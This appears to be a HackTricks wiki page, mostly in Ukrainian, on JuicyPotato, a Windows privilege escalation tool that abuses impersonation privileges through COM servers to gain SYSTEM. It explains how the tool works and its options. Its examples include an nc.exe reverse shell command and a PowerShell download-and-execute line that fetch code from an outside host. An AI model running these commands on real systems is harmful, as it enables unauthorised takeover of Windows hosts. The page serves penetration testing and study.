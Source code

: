 # JuicyPotato

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) - це **пошукова система**, що працює на основі **темного вебу**, яка пропонує **безкоштовні** функції для перевірки, чи була компанія або її клієнти **скомпрометовані** **шкідливими програмами-крадіями**.

Основна мета WhiteIntel - боротися з захопленням облікових записів та атаками програм-вимагачів, що виникають внаслідок шкідливих програм, що крадуть інформацію.

Ви можете перевірити їхній вебсайт і спробувати їхній двигун **безкоштовно** за адресою:

{% embed url="https://whiteintel.io" %}

***

{% hint style="warning" %}
**JuicyPotato не працює** на Windows Server 2019 та Windows 10 версії 1809 і вище. Однак, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato) можуть бути використані для **отримання тих же привілеїв і отримання доступу рівня `NT AUTHORITY\SYSTEM`**. _**Перевірте:**_
{% endhint %}

{% content-ref url="roguepotato-and-printspoofer.md" %}
[roguepotato-and-printspoofer.md](roguepotato-and-printspoofer.md)
{% endcontent-ref %}

## Juicy Potato (зловживання золотими привілеями) <a href="#juicy-potato-abusing-the-golden-privileges" id="juicy-potato-abusing-the-golden-privileges"></a>

_Цукрова версія_ [_RottenPotatoNG_](https://github.com/breenmachine/RottenPotatoNG)_, з трохи соку, тобто **інший інструмент підвищення локальних привілеїв, з облікових записів служб Windows до NT AUTHORITY\SYSTEM**_

#### Ви можете завантажити juicypotato з [https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts](https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts)

### Резюме <a href="#summary" id="summary"></a>

[**З Readme juicy-potato**](https://github.com/ohpe/juicy-potato/blob/master/README.md)**:**

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) та його [варіанти](https://github.com/decoder-it/lonelypotato) використовують ланцюг підвищення привілеїв на основі [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [сервісу](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126), що має MiTM слухача на `127.0.0.1:6666`, і коли у вас є привілеї `SeImpersonate` або `SeAssignPrimaryToken`. Під час перевірки збірки Windows ми виявили налаштування, де `BITS` був навмисно вимкнений, а порт `6666` був зайнятий.

Ми вирішили озброїти [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG): **Скажіть привіт Juicy Potato**.

> Для теорії дивіться [Rotten Potato - Підвищення привілеїв з облікових записів служб до SYSTEM](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) і слідкуйте за ланцюгом посилань і посилань.

Ми виявили, що, окрім `BITS`, є кілька COM-серверів, які ми можемо зловживати. Вони просто повинні:

1. бути інстанційованими поточним користувачем, зазвичай "користувачем служби", який має привілеї імперсонації
2. реалізовувати інтерфейс `IMarshal`
3. працювати як підвищений користувач (SYSTEM, Адміністратор тощо)

Після деяких тестувань ми отримали та протестували розширений список [цікавих CLSID](http://ohpe.it/juicy-potato/CLSID/) на кількох версіях Windows.

### Соковиті деталі <a href="#juicy-details" id="juicy-details"></a>

JuicyPotato дозволяє вам:

* **Цільовий CLSID** _виберіть будь-який CLSID, який ви хочете._ [_Тут_](http://ohpe.it/juicy-potato/CLSID/) _ви можете знайти список, організований за ОС._
* **COM порт прослуховування** _визначте COM порт прослуховування, який ви віддаєте перевагу (замість зашитого 6666)_
* **IP-адреса прослуховування COM** _прив'яжіть сервер до будь-якої IP-адреси_
* **Режим створення процесу** _в залежності від привілеїв імперсованого користувача ви можете вибрати з:_
* `CreateProcessWithToken` (потрібен `SeImpersonate`)
* `CreateProcessAsUser` (потрібен `SeAssignPrimaryToken`)
* `обидва`
* **Процес для запуску** _запустіть виконуваний файл або скрипт, якщо експлуатація успішна_
* **Аргумент процесу** _налаштуйте аргументи запущеного процесу_
* **Адреса RPC-сервера** _для прихованого підходу ви можете аутентифікуватися на зовнішньому RPC-сервері_
* **Порт RPC-сервера** _корисно, якщо ви хочете аутентифікуватися на зовнішньому сервері, а брандмауер блокує порт `135`…_
* **РЕЖИМ ТЕСТУ** _в основному для тестування, тобто тестування CLSID. Він створює DCOM і виводить користувача токена. Дивіться_ [_тут для тестування_](http://ohpe.it/juicy-potato/Test/)

### Використання <a href="#usage" id="usage"></a>
```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
```
### Final thoughts <a href="#final-thoughts" id="final-thoughts"></a>

[**From juicy-potato Readme**](https://github.com/ohpe/juicy-potato/blob/master/README.md#final-thoughts)**:**

Якщо у користувача є привілеї `SeImpersonate` або `SeAssignPrimaryToken`, то ви **SYSTEM**.

Майже неможливо запобігти зловживанню всіма цими COM-серверами. Ви можете подумати про зміну дозволів цих об'єктів через `DCOMCNFG`, але удачі, це буде складно.

Фактичне рішення полягає в захисті чутливих облікових записів та програм, які працюють під обліковими записами `* SERVICE`. Зупинка `DCOM` безумовно завадить цій експлуатації, але може мати серйозний вплив на основну ОС.

З: [http://ohpe.it/juicy-potato/](http://ohpe.it/juicy-potato/)

## Examples

Note: Visit [this page](https://ohpe.it/juicy-potato/CLSID/) for a list of CLSIDs to try.

### Get a nc.exe reverse shell
```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

c:\Users\Public>
```
### Powershell rev
```
.\jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.3:8080/ipst.ps1')" -t *
```
### Запустіть новий CMD (якщо у вас є доступ до RDP)

![](<../../.gitbook/assets/image (300).png>)

## Проблеми з CLSID

Часто стандартний CLSID, який використовує JuicyPotato, **не працює** і експлойт зазнає невдачі. Зазвичай, потрібно кілька спроб, щоб знайти **працюючий CLSID**. Щоб отримати список CLSID для конкретної операційної системи, вам слід відвідати цю сторінку:

{% embed url="https://ohpe.it/juicy-potato/CLSID/" %}

### **Перевірка CLSID**

Спочатку вам знадобляться деякі виконувані файли, окрім juicypotato.exe.

Завантажте [Join-Object.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/utils/Join-Object.ps1) і завантажте його у вашу PS сесію, а також завантажте та виконайте [GetCLSID.ps1](https://github.com/ohpe/juicy-potato/blob/master/CLSID/GetCLSID.ps1). Цей скрипт створить список можливих CLSID для тестування.

Потім завантажте [test\_clsid.bat ](https://github.com/ohpe/juicy-potato/blob/master/Test/test\_clsid.bat) (змініть шлях до списку CLSID та до виконуваного файлу juicypotato) і виконайте його. Він почне пробувати кожен CLSID, і **коли номер порту зміниться, це означатиме, що CLSID спрацював**.

**Перевірте** працюючі CLSID **за допомогою параметра -c**

## Посилання

* [https://github.com/ohpe/juicy-potato/blob/master/README.md](https://github.com/ohpe/juicy-potato/blob/master/README.md)

### [WhiteIntel](https://whiteintel.io)

<figure><img src="../../.gitbook/assets/image (1227).png" alt=""><figcaption></figcaption></figure>

[**WhiteIntel**](https://whiteintel.io) є **пошуковою системою** на основі **темного вебу**, яка пропонує **безкоштовні** функції для перевірки, чи була компанія або її клієнти **компрометовані** **шкідливими програмами-крадіями**.

Їхня основна мета - боротися з захопленнями облікових записів та атаками програм-вимагачів, що виникають внаслідок шкідливих програм, що крадуть інформацію.

Ви можете перевірити їхній вебсайт і спробувати їхній двигун **безкоштовно** за адресою:

{% embed url="https://whiteintel.io" %}

{% hint style="success" %}
Вчіться та практикуйте Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вчіться та практикуйте Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}
